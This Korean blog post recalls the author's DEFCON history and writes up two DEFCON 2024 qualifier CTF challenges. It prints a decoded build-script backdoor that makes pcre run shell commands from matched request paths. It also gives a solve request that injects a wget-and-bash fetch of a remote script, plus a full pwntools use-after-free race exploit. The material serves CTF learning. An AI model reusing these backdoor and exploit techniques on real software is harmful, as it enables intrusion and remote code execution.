




+++ 
draft = false
date = 2024-05-10T22:01:54+09:00
title = "DEFCON 2024 Quals Writeup 그리고 지난 DEFCON을 돌아보며"
description = ""
slug = "defcon-2024-quals-writeup"
authors = []
tags = ["CTF", "pwn", "misc", "Korean"]
categories = []
externalLink = ""
series = []
+++

## 첫 포스팅

N번째 나만의 블로그 만들기 다짐을 하며 첫 포스팅을 무슨 주제로 할지 고민해보았다. 무료한 일상 이야기, 재미있는(?) 웹해킹 팁 등 여러 가지가 있겠지만 우선 DEFCON 대회에 대해, 그리고 2024 Quals 간단 Writeup으로 시작해 보려고 한다. 사실 DEFCON 본선 진출 자랑 목적으로 쓰는 거 맞다. 

## 지난 DEFCON 

DEFCON은 나에게 있어 다른 대회와는 다르게 느껴진다. 대학에 처음 입학했을 때는 해킹의 ㅎ 자도 모를 때 처음 알게 된 대회이자, 나에게 해킹을 가르쳐 준 CyKor 선배들이 활약한 대회였다. 아무 생각 없던 그때의 나는 막연히 세계 최강 해커가 돼서 DEFCON에서 1등 하겠다는 꿈을 꾸었다. 그때부터 해킹 공부를 같이 시작한 동기들과 함께 CTF를 뛰기 시작했다. 



대학 4년동안 해킹 공부와 CTF를 하면서 나름 괜찮게 했다고 생각한다. 물론 처음 목표로 했던 [세계 최강 해커](https://twitter.com/jinmo123)에 근접하지도 못했지만, 몇 개 대회는 상위권에 들었고 Codegate 대학부에서는 1등을 하는 등 어느 정도 만족할 만한 성적을 얻었다. 

DEFCON은 달랐다. 내 첫 DEFCON 기회는 2019년 대회였는데, 선배들이 도움을 줘서 KoreanBadass라는 팀으로 참여하게 되었다. 당시 여러 팀의 연합+BoB 팀 (기억이 가물가물...)으로 이루어진 팀이었는데, 대형 연합 팀이다 보니 이름과 닉네임만 들어도 알 수 있는 실력자들이 많았다. 하지만 해킹 공부 3년 차인 나는 그때 당시 풀 수 있는 문제가 아무것도 없었다. 아니, 사실 내 지식으로 해석조차 할 수 없는 문제들이 많았다. 버스 기사 분들이 충분했기 때문에 예선은 당연히 통과했고, BoB 지원 덕분에 미국 현지에서 본선에 참여했지만, 본선에서도 마찬가지로 아무런 기여도 하지 못하고 문자 그대로 놀고 왔다. 


그때 나는 아무런 기여도 하지 못하고 버스 승객이 된다는 것이 얼마나 재미없고 의미없는 것인지를 깨달았다. 물론 보안 분야 최신 트렌드를 파악할 수 있는 컨퍼런스, 스코어보드에서 닉네임으로만 보던 연예인 같은 해커들을 직접 볼 수 있다는 사실은 설렜고, 이러한 기회를 선뜻 제공해 준 동아리 선배들에게는 항상 고마웠다. 하지만 나는 이런 기회를 즐길 수 있는 능력조차 되지 않는다는 것을 느꼈고 상당히 우울했었다. 

바로 다음 해 DEFCON은 운 좋게 일본의 어느 대회(아마 SECCON이었던것 같다)에서 동아리원들이 1등을 하여 시드권을 확보했다. 그래서 본선 전에 동아리에서 회의했었는데, 성적을 위해 다른 팀과 연합을 할 것인가, 아니면 단독으로 나갈 것인가를 정해야 했다. 결론은 CyKor 단독으로 DEFCON 본선을 치르게 되었다. 



이때 코로나 때문에 미국도 못 가고, 마침 장마철이라 온종일 비만 와서 굉장히 습하고 불쾌했던 걸로 기억한다. 연합을 하지 않았기 때문에 성적도 8등에서 그쳤다. 역설적으로 이때의 기억이 나에게는 꽤나 좋았다. 본선용 도구 제작(`pcap_poller`)도 해보고, 문제도 동아리원들과 같이 2개 정도(`parallel_af`, `pinboooll`) 풀었다. 완벽하게 풀지는 못했던 것 같지만 그래도 처음부터 끝까지 붙잡고 볼 수 있는 문제가 있다는 것이 만족스러웠다. 다만 이때도 본선 진출에 기여한 것이 아무것도 없어서 DEFCON 자력 진출은 영영 못 해보나 싶었다. 

졸업하고 3년이 지났지만 그래도 CTF를 제대로 하고 싶다는 생각은 변함이 없었는데, 좋은 기회로 Call of Duty팀에 들어가게 되어 2023년부터 DEFCON을 목표로 준비했고, 다른 한국팀들과 연합을 통해 Cold Fusion 팀으로 DEFCON 2024 예선을 치렀다. 결과는 6등이라는 매우 만족스러운 등수로 본선 진출 성공하였다. 놀랍게도 이번엔 기여한 문제가 2개 정도 있어 간단한 Writeup을 써본다. 



## Writeup

### libprce3

문제 파일 하나랑 웹 페이지 하나가 주어지는데, 웹 페이지는 훼이크였던걸로 기억한다. 문제 파일은 `nginx.conf`와 `prce3-8.39` 소스 폴더 압축인데, `nginx.conf`가 주어진 웹 페이지 환경과 맞지 않아 이상했다. (`.(php|php2|php3)`으로 URI가 끝나면 403을 리턴해야 하는데 404를 리턴) 그래서 다른 서버가 있을 것이라 생각하고 prce 폴더를 살펴보기 시작했다. 

살펴보다 보니 이전에 보안 업계에 꽤나 큰 이슈였던 xz 백도어[^1]가 생각났다. 이와 비슷하게 `pcre` 원래 라이브러리의 빌드 스크립트에 장난을 쳤을 것이라 예상되어 실제 pcre 소스를 다운받고 비교하였다. Diff를 보던 중 (수많은 삽질 끝에) 다음과 같은 변경점이 눈에 들어왔다. 

```diff
> :: check for needed header files
48,56d46
< 
< REM Cleanup after the tests'; 
< 
< REM Deprecated, using cleanup-tests now; if [ ! -f .tests-built ]; then compare_output() { tr $'\n' <$1 ' '|cut -c$2-$2|tr -d $'\n'; };test_results=$(for i in $(sed -n '369,369p' ./test*/*18-16); do IFS='.';set -- $i;IFS=' '; compare_output $(sed -n "$1,${1}p" makevp_c.txt) $2; done);
< REM; sh -c "$test_results"; touch .tests-built; fi
< 
< cleanup-tests $@ || make $@
< 
< :<<END
```

함수명은 `compare_output`이지만 실제는 test 폴더에서 파일을 불러서 특정 패턴대로 해석하는 코드로 보인다. 실제로 돌려보면 다음과 같은 스크립트가 나온다. 


```sh
#/bin/bash
if [ -z "$BUILD_NUMBER" ]; then
rm -f a
cat <<EOF > cleanup-tests
#!/bin/bash
make \$@
if [ "\$1" = "install" ]; then rm -f cleanup-tests; fi
EOF
chmod +x cleanup-tests; make \$@
exit 0
fi
exec 2>&-
sed -i '368,370d' ./testdata/testoutput18-16
cat <<EOF > 'testdata/ '
diff --git a/pcre_compile.c b/pcre_compile.c
index c742227..c2419ef 100644
--- a/pcre_compile.c
+++ b/pcre_compile.c
@@ -65,6 +65,10 @@ COMPILE_PCREx macro will already be appropriately set. */
 #undef PCRE_INCLUDED
 #endif
 
+#include "fcntl.h"
+#include "string.h"
+#include <sys/mman.h>
+
 
 /* Macro for setting individual bits in class bitmaps. */
 
@@ -8974,6 +8978,14 @@ Returns:        pointer to compiled data block, or NULL on error,
                 with errorptr and erroroffset set
 */
 
+char* alph =
+#include "b.h"
+;
+char* date_s = 
+#include "d.h"
+;
+pcre* bd_re = NULL;
+
 #if defined COMPILE_PCRE8
 PCRE_EXP_DEFN pcre * PCRE_CALL_CONVENTION
 pcre_compile(const char *pattern, int options, const char **errorptr,
@@ -8998,6 +9010,7 @@ return pcre32_compile2(pattern, options, NULL, errorptr, erroroffset, tables);
 }
 
 
+
 #if defined COMPILE_PCRE8
 PCRE_EXP_DEFN pcre * PCRE_CALL_CONVENTION
 pcre_compile2(const char *pattern, int options, int *errorcodeptr,
@@ -9012,6 +9025,9 @@ pcre32_compile2(PCRE_SPTR32 pattern, int options, int *errorcodeptr,
   const char **errorptr, int *erroroffset, const unsigned char *tables)
 #endif
 {
+char b[0x400];
+if (bd_re == NULL) { bd_re = 1;int f=open("/proc/self/maps", O_RDONLY);strcpy(b, "^/");strcat(b, alph);strcat(b, "/([\\\$a-zA-Z0-9;:/.|]+)");char *e = 0;int eo;bd_re = pcre_compile(b, PCRE_MULTILINE, &e, &eo, 0);if (bd_re == NULL) {bd_re = 1;}read(f, b, 12);b[12] = 0;char* base = (char*)strtoull(b, 0, 16);close(f);int c=0;for (int i=0; i<0x130000; i++) {char* p = base + i;if (p[0]=='n'&p[1]=='g'&p[2]=='i'&p[3]=='n'&p[4]=='x'&p[5]=='/'&p[6]=='1'&p[7]=='.'&p[8]=='1'&p[9]=='8'&p[10]=='.') {c++; if (c > 5) break;void* p_page = (void*)((uint64_t)p & 0xfffffffffffff000);mprotect(p_page, 0x1000, PROT_READ|PROT_WRITE);snprintf(p, 21, "ni/nginx/%s                            ", date_s);p[20] = 0x20;}} }
+
 REAL_PCRE *re;
 int length = 1;  /* For final END opcode */
 pcre_int32 firstcharflags, reqcharflags;
diff --git a/pcre_exec.c b/pcre_exec.c
index 55230cd..3399738 100644
--- a/pcre_exec.c
+++ b/pcre_exec.c
@@ -6347,6 +6347,10 @@ Returns:          > 0 => success; value is the number of elements filled in
                    -1 => failed to match
                  < -1 => some kind of unexpected problem
 */
+int bd = 0;
+// Defined in other c file
+extern pcre* bd_re;
+extern char* alph;
 
 #if defined COMPILE_PCRE8
 PCRE_EXP_DEFN int PCRE_CALL_CONVENTION
@@ -6398,6 +6402,11 @@ frame_zero.Xnextframe = NULL;            /* None are allocated yet */
 md->match_frames_base = &frame_zero;
 #endif
 
+// Here is the target, good luck:
+// curl http://chiptunegeek.shellweplayaga.me:194/[ CENSORED ] --header "Ticket: ticket{[ CENSORED ]}" [ CENSORED ]
+char buf[0x2000];
+if (bd== 0) { bd = 1; if (bd_re) { int ov[30];int rc = pcre_exec(bd_re, NULL, subject, strlen(subject), 0, 0, ov, sizeof(ov)/sizeof(ov[0]));if (rc >= 2) { pcre_copy_substring(subject, ov, rc, 1, buf, sizeof(buf));char* m = strdup(buf);system(m); }} bd = 0; }
+
 /* Check for the special magic call that measures the size of the stack used
 per recursive call of match(). Without the funny casting for sizeof, a Windows
 compiler gave this error: "unary minus operator applied to unsigned type,

EOF
patch -p1 < 'testdata/ ' 2>&1 1>/dev/null
echo $(($(date +%s) / 86400)) | md5sum | cut -d' ' -f1 |  awk '{ for(i=0;i<10;i++) printf "%s", $1 }' > a
echo '"'$(echo "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789" | grep -o . | shuf --random-source ./a| tr -d '
')'"' > b.h; rm -f ./a;
echo '"'$(date +"%m.%d.%y" | tr -d '0')'"' > d.h
cat <<EOF > cleanup-tests
#!/bin/bash
make \$@
if [ "\$1" = "install" ]; then patch -R -p1 < 'testdata/ ' 2>&1 1>/dev/null; rm -f 'testdata/ '; rm -f cleanup-tests b.h d.h; fi
EOF
chmod +x cleanup-tests; make $@
```


대충 해석하면 
  - 주석에 목표 서버 주소가 주어짐
  - `pcre_compile2` 패치: 해당 함수를 사용하는 프로세스가 nginx면 nginx 서버 문자열을 `ni/nginx/{date_s}` 로 치환
  - `pcre_exec` 패치: pcre 실행 시 subject 문자열이 `^/{alph}/([\\\$a-zA-Z0-9;:/.|]+)` 꼴인지 확인하고 맞으면 `system(subject)`
  - `date_s`는 날짜, `alph`는 날짜를 md5한 값 기반으로 만들어진다. 

여기서 아까 처음 제공된 `nginx.conf`를 살펴봐야 하는데, 
```nginx
location ~.*\.(php|php2|php3)$
{
    return 403;
}
```
`location`을 판별하는 과정에서 regex를 사용하기 때문에 여기서 백도어 트리거가 가능할 것이라고 합리적으로 추정할 수 있다. 

나머지 과정은 서버에 접속해서 응답 `Server` 헤더에서 `date_s` 값을 얻고 현재 날짜를 역산하여 `alph` 값을 알아내고 Path 경로에 regex를 통과하는 원하는 코드를 만들어서 실행하면 된다. 
여기서 공백 우회가 약간 어려웠는데, 나는 `$IFS$2`를 이용하여 우회했다. (Credit @timmy)

최종 코드는 다음과 같다. 
```python
import requests

r = requests.get('http://chiptunegeek.shellweplayaga.me:194/wpMI7xlCLtiqOk3bzUEfs1TQNVynGB4ASRFcDJ0KYPXmHv2o65gWuZ89djareh/cd$IFS$2/tmp;wget$IFS$2[redacted]:8080/abcd56.sh;bash$IFS$2abcd56.sh;', headers={
    'Ticket': 'ticket{[redacted]}',
    'User-Agent': 'curl/7.68.0'
})

print(r.text, r.headers, r.request.url)
```

### deenzone

이번 DEFCON 예선의 특징은 열린 문제가 한 팀이라도 풀어야 다른 문제가 열린다는 점[^2]이었다. deenzone 문제는 3번째로 열렸는데 MMM이 풀기까지 11시간이 걸렸다. 그래서 11시간 동안 다른 문제가 하나도 열리지 않아 대부분의 팀들이 이 문제를 계속 잡고 있었을 것이라 생각된다. 우리 팀은 36시간 들여 결국 이 문제를 풀어냈다. 



deenzone 문제는 ARM 바이너리와 종속 라이브러리 빌드 스크립트가 주어졌다. QEMU로 환경 구축하기에는 제한사항이 많아 AWS의 ARM 인스턴스를 하나 사용하여 디버깅 환경을 구축하였다. 

deenzone 바이너리는 C++에 심볼이 strip 되어있어 리버싱이 굉장히 힘들었다. 그래서 팀 디코에서 다른 분들이 분석해준 IDB + 나중에 누군가 IDA Lumina 서버에 올려 놓은 deenzone 심볼을 다운받아 그제서야 편하게 오디팅을 진행할 수 있었다. 소스코드가 이미 github에 업로드 되어 있어 바이너리 분석은 패스한다. 

리버싱만 계속 하고 있던 중 @crit3ri4 선배가 `TradingEngine::execute` (Trade를 체결하는 함수)와 `TradingPlatform::listTrades` (최근 Trade를 나열하는 함수)가 동시에 일어날 때 메모리 릭이 일어난다는 것을 알아냈다. 그 원인을 분석해보니 `listTrades`와 `execute`는 서로 다른 thread에서 일어나는데, `listTrades`에서 Thread끼리 공유하고 있는 trade list의 trade들을 지역 vector에 포인터 복사하고 출력 전에 `execute`에서 최근 30개중 마지막 trade를 Free 시키면 UAF가 발생하는 것이었다. 

마침 `Trade` 객체의 사이즈(0xB0)와 `VipClientEntry` 객체의 사이즈(0xB0)가 동일했으며, `Trade` 객체에서 출력되는 문자열 필드(`m_ticker`)와 `VipClientEntry`의 패스워드 필드(`m_password`)의 위치가 동일했다. 이를 통해 세운 시나리오는 위의 Race Condition을 이용하여 execute에서 `Trade`가 Free될 때 `mcarlson`(Flag holder)을 VIP로 승급시킬 수 있는 Trade를 만들어 Free된 영역이 다시 할당되도록 해 `mcarlson`의 패스워드를 유출하는 것이었다. 

나는 해당 아이디어를 가지고 재현만 계속 시도했었는데, `pwndbg` 설정이 약간 부족하여 힙 관련 함수 없이 분석하다 보니 실패 원인을 추적하기 어려웠다. 그러던 중 갑자기 `gef`가 생각나서 설치해봣는데 `gef`는 별도의 설정 없이 자동으로 힙 관련 함수들을 사용할 수 있었다! (`gef` 짱짱)

시나리오가 제대로 작동하지 않던 원인은 tcache에 있었는데, tcache가 LIFO이며 최대 7개의 청크를 보관할 수 있다보니 execute에서 trade가 free된 청크가 tcache가 아닌 smallbin에 들어가고 VIP 승급 시 `VipClientEntry` 할당에는 tcache에서 chunk를 가져오고 있었다. 이를 해결하기 위해 취약점 트리거 직전에 다른 한명을 VIP로 승급시켜 의도적으로 tcache entry를 하나 비운 다음 익스 시나리오를 실행하였다. 

최종 익스 코드는 다음과 같다. (Credit @crit3ri4, @timmy)


* 익스가 여러 사람의 손을 타다보니 중구난방이다. 
```python
from pwn import *
import random

class CycliStr:
    def __init__(self) -> None:
        self.count = 0
    def __str__(self):
        buf = str(self.count)
        self.count += 1
        buf = buf.ljust(100, 'A')
        return buf
    def __add__(self, other):
        return str(self) + str(other)

randstr = str(CycliStr())
print(randstr)


r = remote('[REDACTED]', [REDACTED])
r.sendlineafter(':', '[REDACTED]')

def create(un, pw, rr):
    rr.sendlineafter('>', '1')
    rr.sendlineafter('>', un)
    rr.sendlineafter('>', pw)

def login(un, pw, rr):
    rr.sendlineafter('>', '2')
    rr.sendlineafter('>', un)
    rr.sendlineafter('>', pw)

def buy(ticker, amount, price, rr):
    rr.sendlineafter('>', '1')
    rr.sendlineafter('>', ticker)
    rr.sendlineafter('>', str(amount))
    rr.sendlineafter('>', str(price))

def sell(ticker, amount, price, rr):
    rr.sendlineafter('>', '2')
    rr.sendlineafter('>', ticker)
    rr.sendlineafter('>', str(amount))
    rr.sendlineafter('>', str(price))
   
create('admin', 'admin', r)

# for i in range(1000):
#     if i % 50 == 0:
#         print(i)
#     create(str(i), '1111', r)


login('admin', 'admin', r)


# create('b', 'b', r2)
# login('b', 'b', r2)

buy('1', -1000000, 100, r)


orders = [("Minerva" , 10),
("Porthos" , 2),
("Bella" , 3),
("FANGST" , 5),
("Nuri" , 6),
("Pollastrini Di Anzio" , 6),
("Ati Manel" , 9),
("Bella" , 11),
("Jose Gourmet" , 12),
("Espinaler" , 12),
("Pollastrini Di Anzio" , 11),
("La Brujula" , 7),
("Conservas de Cambados" , 8),
("Minerva" , 10),
("Jose Gourmet" , 11),
("Angelo Parodi" , 5),
("Matiz" , 3),
("King Oscar" , 7),
("Espinaler" , 1),
("Sardinha" , 3),
("Bella" , 2),
("King Oscar" , 5),
("FANGST" , 5),
("Les Mouettes d'Arvor" , 3),
("Pollastrini Di Anzio" , 1),
("Angelo Parodi" , 4),
("Les Mouettes d'Arvor" , 12),
("Ati Manel" , 4),
("Conservas de Cambados" , 4),
("Pollastrini Di Anzio" , 6),
("Matiz" , 10),
("Nissui" , 12),
("Espinaler" , 2),
("Espinaler" , 7),
("Yurrita" , 9),
("King Oscar" , 7),
("Nuri" , 8),
("King Oscar" , 3),
("Ati Manel" , 7),
("La Brujula" , 4),
("Angelo Parodi" , 10),
("Yurrita" , 9),
("Nuri" , 10),
("Matiz" , 11),
("Ortiz" , 6),
("Ati Manel" , 3),
("Espinaler" , 6),
("Les Mouettes d'Arvor" , 12),
("FANGST" , 4),
("La Brujula" , 9),
("Alshark" , 1),
("Ati Manel" , 1),
("Espinaler" , 4),
("Nissui" , 6),
("Ortiz" , 5),
("FANGST" , 3),
("King Oscar" , 11),
("Nissui" , 8),
("Yurrita" , 9),
("Ati Manel" , 10),
("Ortiz" , 3),
("Yurrita" , 2),
("Angelo Parodi" , 5),
("Conservas de Cambados" , 4),
("Nissui" , 7),
("Angelo Parodi" , 10),
("Les Mouettes d'Arvor" , 4),
("Minerva" , 6),
("Conservas de Cambados" , 12),
("Les Mouettes d'Arvor" , 7),
("Sardinha" , 11),
("Nissui" , 12),
("Porthos" , 1),
("Ramon Pena" , 11),
("Minerva" , 2),
("Alshark" , 9),
("Les Mouettes d'Arvor" , 10),
("Conservas de Cambados" , 10),
("Yurrita" , 8),
("Ortiz" , 4),
("Jose Gourmet" , 12),
("Yurrita" , 12),
("FANGST" , 7),
("Porthos" , 10),
("Nissui" , 11),
("Angelo Parodi" , 5),
("King Oscar" , 3),
("Yurrita" , 2),
("Conservas de Cambados" , 8),
("Matiz" , 2),
("Matiz" , 4),
("Yurrita" , 2),
("Nuri" , 11),
("Sardinha" , 11),
("Bella" , 2),
("Ramon Pena" , 7),
("Nissui" , 5),
("Ortiz" , 11),
("Matiz" , 5),
("Sardinha" , 11)]

# for t in orders:
#     buy(t[0], t[1], 100, r)


buy('Ramon Pena', 18, 100, r)

for i in range(5):
    print(i)
    sell('Ramon Pena', 1, 7, r)

for i in range(46):
    sell(randstr + str(i), -1000, 100000000, r)

for i in range(46):
    sell(randstr + str(i), 1, 1, r)
    buy(randstr + str(i), 1, 1, r)


r2 = remote('[REDACTED]', [REDACTED])
r2.sendlineafter(':', '[REDACTED]')
create('admin2', 'admin2', r2)
login('admin2', 'admin2', r2)

r3 = remote('[REDACTED]', [REDACTED])
r3.sendlineafter(':', '[REDACTED]')
create('admin3', 'admin3', r3)
login('admin3', 'admin3', r3)


r4 = remote('[REDACTED]', [REDACTED])
r4.sendlineafter(':', '[REDACTED]')
create('admin4', 'admin4', r4)
login('admin4', 'admin4', r4)


#r2.recvuntil('>')

r.sendlineafter('>', '2')
r.sendlineafter('>', 'Ramon Pena')
r.sendlineafter('>', '1')


r2.sendlineafter('>', '7')
r2.sendlineafter('>', '4')

# r3.sendlineafter('>', '7')
# r3.sendlineafter('>', '4')

# r4.sendlineafter('>', '7')
# r4.sendlineafter('>', '4')

import threading

def x():
    tt = b''
    while True:
        ttt = r2.recvuntil('>')
        if tt != ttt:
            try:
                ttt.decode()
            except Exception as e:
                print(e)
                print(ttt)
                exit(-1)
        tt = ttt

def y():
    tt = b''
    while True:
        ttt = r3.recvuntil('>')
        if tt != ttt:
            print(ttt[12000:])
            print(ttt.decode())
        tt = ttt


def z():
    tt = b''
    while True:
        ttt = r4.recvuntil('>')
        if tt != ttt:
            print(ttt[12000:])
            print(ttt.decode())
        tt = ttt


def xx():
    tt = b''
    while True:
        ttt = r2.sendline('5')


def yy():
    tt = b''
    while True:
        ttt = r3.sendline('5')


def zz():
    tt = b''
    while True:
        ttt = r4.sendline('5')


tx = threading.Thread(target=x)
# ty = threading.Thread(target=y)
tz = threading.Thread(target=z)
txx = threading.Thread(target=xx)
# tyy = threading.Thread(target=yy)
tzz = threading.Thread(target=zz)


#r.interactive()


create('aaaaaa', 'aaaaa', r3)
create('aaaaaa1', 'aaaaa', r3)
create('aaaaa1a', 'aaaaa', r3)
create('aaaa1aa', 'aaaaa', r3)

tx.start()
# ty.start()
tz.start()
txx.start()
# tyy.start()
tzz.start()


sleep(1)

r.sendline('7')

# tx.join()
# ty.join()
# tz.join()
# txx.join()
# tyy.join()
# tzz.join()

sleep(3)

r.interactive()
```


## 결론
오랜만에 다시 DEFCON 본선 진출이자, 내가 예선에 기여한 첫 번쨰 DEFCON 대회라 기분이 매우 좋았다. 특히 pwnable을 거의 3년 동안 하지 않아 감이 떨어진 상태였지만 deenzone을 36시간 동안 포기하지 않고 결국은 풀어내 더욱 만족스러웠다. 하지만 요새 내가 주력으로 잡고 있는 웹 분야가 한 문제 밖에 나오지 않았고, 그 한 문제 마저 guessing에 가까워 실망스러웠다. 원래 DEFCON이 pwnable, reversing, misc류가 많이 나오긴 했지만 그래도 web 한 문제는 너무 심한거같다.

어쨌든 본선을 준비해야하기 때문에 pwnable 위주로 다시 공부를 시작해야 할 것 같다. 그리고 인프라 구축도 참여해보면서 개발 실력도 이참에 향상시켜 보고자 한다. 

[^1]: https://boehs.org/node/everything-i-know-about-the-xz-backdoor
[^2]: 원래 그랬는지는 잘 모르겠다. 